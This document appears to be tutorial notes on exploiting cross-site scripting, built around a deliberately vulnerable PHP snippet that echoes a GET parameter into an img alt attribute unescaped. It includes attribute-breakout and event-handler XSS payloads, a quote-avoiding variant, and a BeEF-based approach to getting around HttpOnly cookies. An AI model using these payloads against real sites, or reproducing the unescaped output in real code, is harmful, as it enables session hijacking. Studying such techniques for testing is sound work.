 # Manual techniques and best practices for exploiting XSS

* This piece of vulnerable code:

  ```php
  <html>
    <head><title>Exploiting XSS</title></head>
    <body>
      <img src="logo.png" alt="<?= $_GET['name'] ?>">
    </body>
  </html>
  ```

  Could be exploited sending an HTTP request with this payload:

  ```url
  http://example.tbl/index.php?name=<script>alert('XSS')</script>
  ```

  The previous JavaScript code will not be executed due to the fact that it's being inserted in the `alt` parameter of the `IMG` tag. We have to escape out of the `alt` tag by using `">`:

  ```url
  http://example.tbl/index.php?name="><script>alert('XSS')</script>
  ```

  Unfortunately, this will break the HTML tag structure and show extra suspicious characters in the web site appearance (i.e. `">` corresponding to the closing of the legitimate alt tag).
* To avoid the presence of suspicious characters in the visible part of the web page, we can use the following payload:

  ```html
  "><body onload="alert('XSS')
  ```

  Note that we are leaving the double quote open because the remaining characters `">` will take care of closing our tag.
* Browsers are the software that interprets the HTML code received by web servers, so there are payloads that may work with Firefox and may not work with Chrome and vice versa.
* Browsers like Firefox and Chrome have an integrated XSS filter for reflected XSS.

## Improving a payload

* The DOM events are often used in XSS exploitation because they allow us to avoid using suspicious characters like `<` and `>`:

  ```html
  " onload="javascript:alert('XSS')
  ```

  This means we don't event need to use any HTML tag's (e.g. `<script>` or `<body>`), therefore, we are able to bypass basic input validations checks.
* Also, we can avoid using single quotes with the help of the JavaScript function `String.fromCharCode`:

  ```html
  " onload="alert(String.fromCharCode(88,83,83))
  ```

### Bypassing the `HttpOnly` flag to steal a session

* An alternative to stealing protected cookies that make use of the `HttpOnly` flag is to use the victim browser as a proxy. Basically, what we can do here is exploit the XSS flaw and then use the victim browser to perform requests as the victim user to the web application.
  * We can do this simply by using [Tunneling Proxy][1] in BeEF. This feature allows you to tunnel requests through the hooked browser.
* Another old technique is called `Cross-Site Tracking (XST)`.

[1]: https://github.com/beefproject/beef/wiki/Tunneling
